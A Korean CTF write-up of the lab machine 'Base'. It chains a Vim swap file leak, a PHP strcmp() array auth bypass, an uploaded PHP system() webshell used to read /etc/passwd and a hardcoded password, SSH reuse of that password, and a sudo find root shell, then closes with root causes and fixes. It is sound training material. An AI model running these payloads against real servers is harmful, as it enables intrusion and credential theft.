# Base

## 개요

Apache 웹 서버에서 동작하는 파일 업로드 서비스에서 발생하는 인증 우회와 파일 업로드 취약점을 이용해 초기 접근권을 획득하고, sudo 권한 오설정을 통해 root 권한까지 상승하는 Linux 머신이다. Vim swap 파일 정보 노출, PHP strcmp() 타입 혼동을 통한 인증 우회, PHP 웹셸 업로드를 통한 RCE, find를 이용한 권한 상승이라는 네 가지 취약점이 하나의 공격 체인으로 연결된다.

---

## 대상 정보

| 항목 | 내용 |
|------|------|
| 머신 이름 | Base |
| OS | Ubuntu 18.04 LTS (Linux) |
| IP | 10.129.95.184 |
| 난이도 | Very Easy (Tier 2) |
| 주요 취약점 | Vim swap 파일 노출, PHP strcmp() 타입 혼동, 파일 업로드 제한 부재, sudo 권한 오설정 |
| 주요 기술 | 디렉토리 열거, 인증 우회, PHP 웹셸, RCE, sudo 권한 상승 |

---

## Enumeration

### TCP 포트 스캔

```bash
nmap -sC -sV 10.129.95.184
```



열린 포트는 두 개다.

| 포트 | 서비스 | 버전 |
|------|--------|------|
| 22/tcp | SSH | OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 |
| 80/tcp | HTTP | Apache httpd 2.4.29 (Ubuntu) |

HTTP 타이틀이 `Welcome to Base`로 확인됐다. 웹 서버가 존재하므로 웹 열거로 이어진다.

### 웹 서버 분석

브라우저로 접속하면 메인 페이지가 표시되고, `/login/login.php`에 로그인 폼이 존재한다.



### /login 디렉토리 열거

Apache Directory Listing이 활성화되어 있어 `/login` 디렉토리 내 파일 목록이 그대로 노출된다.

```bash
curl http://10.129.95.184/login/
```



| 파일명 | 크기 | 비고 |
|--------|------|------|
| config.php | 61B | 설정 파일 |
| login.php | 7.4K | 로그인 처리 파일 |
| login.php.swp | 16K | Vim swap 파일 — 소스코드 노출 |

`login.php.swp`는 Vim으로 파일 편집 중 비정상 종료 시 자동 생성되는 임시 파일이다. 웹서버에 그대로 남아 있어 `login.php`의 PHP 소스코드를 복구할 수 있다.

### login.php.swp 분석

swap 파일을 다운로드하고 `strings`로 가독 가능한 문자열을 추출한다.

```bash
curl http://10.129.95.184/login/login.php.swp -o login.php.swp && strings login.php.swp
```





추출된 소스코드에서 인증 로직을 확인할 수 있다.

```php
require('config.php');
if (strcmp($username, $_POST['username']) == 0) {
    if (strcmp($password, $_POST['password']) == 0) {
        $_SESSION['user_id'] = 1;
        header("Location: /upload.php");
```

`strcmp()`로 입력값을 비교하고 반환값이 `0`이면 `/upload.php`로 리다이렉트하는 구조다. 이 구현에서 PHP 타입 혼동 취약점이 발생한다.

---

## 취약점 공격

### strcmp() 타입 혼동을 통한 인증 우회

PHP에서 `strcmp()`에 배열을 인자로 전달하면 `NULL`을 반환한다. `NULL == 0`은 PHP의 느슨한 비교(`==`) 특성상 `true`로 평가된다. POST 파라미터를 배열 형태(`username[]=a`)로 전송하면 `strcmp()`가 배열을 받아 `NULL`을 반환하여 인증을 우회할 수 있다.

| 입력 형태 | strcmp() 반환값 | == 0 결과 |
|-----------|----------------|-----------|
| `username=admin` (문자열) | 정수 (-1, 0, 1) | 정상 비교 |
| `username[]=a` (배열) | NULL | NULL == 0 → true → 인증 우회 |

```bash
curl -s -X POST http://10.129.95.184/login/login.php \
  -d 'username[]=a&password[]=a' \
  -c cookies.txt -v 2>&1 | grep -i 'set-cookie\|302'
```



응답으로 `302 Found`와 `PHPSESSID` 쿠키가 발급됐다. 인증 우회 성공.

```
< HTTP/1.1 302 Found
< Set-Cookie: PHPSESSID=...; path=/
< Location: /upload.php
```

세션 쿠키로 `/upload.php`에 접근하면 파일 업로드 페이지가 정상 표시된다.



### 업로드 디렉토리 열거

업로드된 파일의 저장 경로를 찾기 위해 gobuster로 디렉토리를 열거한다. `dirbuster/directory-list-2.3-medium.txt`로는 발견되지 않아 SecLists의 `raft-large-directories.txt`를 사용했다.





```bash
gobuster dir -u http://10.129.95.184/ \
  -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-large-directories.txt
```

`/_uploaded` 디렉토리가 발견됐다. 일반적인 워드리스트에 없는 비표준 경로명이었기 때문에 더 큰 워드리스트가 필요했다.

### PHP 웹셸 업로드 및 RCE

파일 업로드 기능에 확장자 검증이 없다. PHP 웹셸을 업로드하여 원격 코드 실행(RCE)을 달성한다.

```bash
echo '<?php system($_GET["cmd"]); ?>' > shell.php

curl -s http://10.129.95.184/upload.php \
  -b cookies.txt \
  -F 'image=@shell.php'
```

웹셸이 `/_uploaded/shell.php`에 저장됐다. `cmd` 파라미터로 서버에서 임의 명령어를 실행할 수 있다.

```bash
curl -s "http://10.129.95.184/_uploaded/shell.php?cmd=cat+/etc/passwd" | grep '/home/'
```



타겟 서버의 `/etc/passwd`를 읽어 `john` 계정과 홈 디렉토리 `/home/john`을 확인했다.

### config.php에서 크리덴셜 획득

웹셸로 `config.php`를 직접 읽는다.

```bash
curl -s "http://10.129.95.184/_uploaded/shell.php?cmd=cat+/var/www/html/login/config.php"
```



```php
<?php
$username = "admin";
$password = "thisisagoodpassword";
```

하드코딩된 패스워드 `thisisagoodpassword`를 획득했다. 패스워드 재사용 가능성을 고려하여 `john` 계정에 SSH 접속을 시도한다.

### SSH 접속

```bash
ssh john@10.129.95.184
# password: thisisagoodpassword
```



`john@base` 셸 획득 완료.

---

## 권한 상승

### sudo 권한 확인

```bash
sudo -l
```



```
(root : root) /usr/bin/find
```

`john`이 `/usr/bin/find`를 root 권한으로 실행할 수 있다. `find`는 `-exec` 옵션으로 임의 명령어를 실행할 수 있으므로 권한 상승 벡터가 된다.

### find를 이용한 root 셸 획득

`find`를 `sudo`로 실행하면 `-exec`로 실행되는 명령어도 root 권한을 상속한다.

```bash
sudo /usr/bin/find . -exec /bin/bash \; -quit
```

| 옵션 | 설명 |
|------|------|
| `sudo /usr/bin/find` | root 권한으로 find 실행 |
| `.` | 현재 디렉토리를 탐색 대상으로 지정 |
| `-exec /bin/bash \;` | 파일 발견 시 /bin/bash 실행 (트리거) |
| `-quit` | 첫 번째 실행 후 즉시 종료, 반복 방지 |



`root@base` 셸 획득 완료.

---

## 플래그 획득

```bash
cat /home/john/user.txt  # user flag
cat /root/root.txt       # root flag
```




---

## 취약점 원인 분석

### 근본 원인

| 취약점 | 위치 | 근본 원인 | OWASP |
|--------|------|-----------|-------|
| Directory Listing 활성화 | Apache 설정 | `Options Indexes` 비활성화 누락 | A05 Security Misconfiguration |
| Vim swap 파일 노출 | `/login/login.php.swp` | 개발 환경 임시 파일이 웹 루트에 잔존 | A05 Security Misconfiguration |
| strcmp() 타입 혼동 | `login.php` 인증 로직 | 느슨한 비교(`==`) 사용, 입력 타입 검증 누락 | A03 Injection |
| 파일 업로드 제한 부재 | `upload.php` | 업로드 파일 확장자 및 MIME 타입 검증 없음 | A01 Broken Access Control |
| 크리덴셜 하드코딩 | `config.php` | 패스워드가 소스코드에 평문으로 노출 | A02 Cryptographic Failures |
| sudo 권한 오설정 | `/etc/sudoers` | 일반 사용자에게 find 실행 권한 부여 | A01 Broken Access Control |

### 실제 환경에서의 위험성

`strcmp()` 타입 혼동은 PHP의 느슨한 타입 비교 특성에서 비롯된다. 엄격한 비교 연산자(`===`)를 사용하거나 입력값이 문자열인지 사전에 검증했다면 우회가 불가능하다. 인증 로직에서 `==` 대신 `===`를 쓰는 것만으로 이 공격 벡터를 차단할 수 있다.

파일 업로드 기능에서 확장자 검증이 없으면 웹셸 업로드로 즉시 RCE로 이어진다. 허용 확장자 화이트리스트 검증, 업로드 디렉토리에서 PHP 실행 비활성화, 파일명 무작위화 중 하나라도 적용됐다면 이 공격은 차단됐다.

sudo 정책에서 특정 도구에 실행 권한을 부여할 때는 해당 도구가 임의 코드 실행으로 이어질 수 있는지 반드시 확인해야 한다. GTFOBins에 등재된 도구들(`find`, `vim`, `python`, `awk` 등)은 sudo 권한과 결합 시 권한 상승 벡터가 된다.

---

## 핵심 정리

| 단계 | 기술 | 도구 |
|------|------|------|
| 포트 스캔 | TCP 열거 | nmap |
| 디렉토리 열거 | Directory Listing 확인 | curl |
| 소스코드 획득 | Vim swap 파일 분석 | curl, strings |
| 인증 우회 | strcmp() 타입 혼동 (배열 전송) | curl |
| 디렉토리 열거 | 업로드 경로 탐색 | gobuster + raft-large |
| 웹셸 업로드 | PHP system() 웹셸 | curl |
| 크리덴셜 획득 | config.php 직접 읽기 | curl + 웹셸 |
| 초기 접근 | SSH 패스워드 인증 | ssh |
| 권한 상승 | find -exec를 통한 bash 실행 | sudo find |
| 플래그 획득 | root 셸에서 파일 읽기 | cat |
